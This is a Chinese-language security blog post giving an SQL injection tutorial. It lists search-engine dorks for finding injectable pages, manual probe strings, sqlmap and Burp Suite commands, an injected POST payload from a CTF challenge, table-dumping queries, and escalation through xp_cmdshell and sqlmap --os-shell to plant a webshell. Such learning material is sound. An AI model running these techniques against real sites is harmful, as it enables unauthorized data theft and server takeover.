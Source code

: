 ```yaml
---
layout: post
title: 1.1.1-SQL注入-SQL注入基础-SQL注入流程
category: 
  - web安全
tags: 
  - sql注入
  - web安全
abbrlink: 820776471
date: 2018-06-11 00:00:00
---
```


### SQL注入流程
#### 01 寻找SQL注入点
##### 寻找SQL注入点

无特定目标：  
inurl:.php?id=  

有特定目标：  
inurl:.php?id=site:target.com 
// jsp sid   

工具爬取：  
spider,对搜索引擎和目标网站的链接进行爬取  

**注入识别**  
手工简单识别：  
	
	'
	and 1=1 / and 1=2
	and '1'='1 / and '1'='2 
	and 1 like 1 / and 1 like 2

工具识别：  
	
	sqlmap -m filename (filename中保存检测目标)
	sqlmap --crawl(sqlmap对目标网站进行爬取，然后依次进行测试)
 
**高级识别：**  
扩展识别广度和深度：  
	
	SqlMap --level 增加测试级别，对header中相关参数也进行测试
	sqlmap -r filename (filename中为网站请求数据)

利用工具提高识别效率：
	
	BurpSuite + SqlMap
	BurpSuite拦截所有浏览器访问提交的数据
	BurpSuite扩展插件，直接调用SqlMap进行测试

一些Tips：  

可以在参数后键入“*” 来确定想要测试的参数  
可能出现注入的点：新闻、登录、搜索、留言... ...  
站在开发的角度去寻找  


---
	
	python sqlmap.py -r 1.txt

burp sqlmap 扩展  
Burp-> Extender->BApp Store -> SQLiPy Sqlmap  

**代码审计：**

搜索关键代码和函数  
梳理业务流程  

强网杯WEB “python is the best language”  

	http://test.com/register  
	POST:  

	username=test&email=t@t.com&password=123&password2=123&submit=Register  
	username=test&email=t@t.com' and '1' = '1&password=123&password2=123&submit=Register  



#### 02 SQL注入流程

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/01.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/02.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/03.png)

数据获取
	
	web.mdb
	
	select [*] from admin
	select [*] from system
	
	select [username] from system
	select [name] from system


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/04.png)

提权
	
	xp.cmdshell
	
	--os-shell // 执行系统命令 写webshell到网站目录
	
	


